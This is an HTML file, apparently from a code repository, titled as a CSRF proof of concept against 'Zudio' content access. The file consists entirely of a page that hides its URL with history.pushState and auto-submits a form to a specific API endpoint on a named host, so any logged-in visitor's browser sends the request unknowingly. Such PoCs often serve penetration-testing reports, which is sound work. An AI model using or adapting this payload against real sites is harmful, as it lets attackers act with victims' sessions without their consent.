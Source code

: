 <html><h1>ZudioTesting-CSRF-POC</h1><!-- CSRF PoC - Zudio content Access --><body><script>history.pushState('', '', '/')</script><form action="https://zudio-dev.zalaris.com/api/v1/content/655df7aaf97598352e49ce7c"><input type="submit" value="Submit request"/></form><script>document.forms[0].submit();</script></body></html>

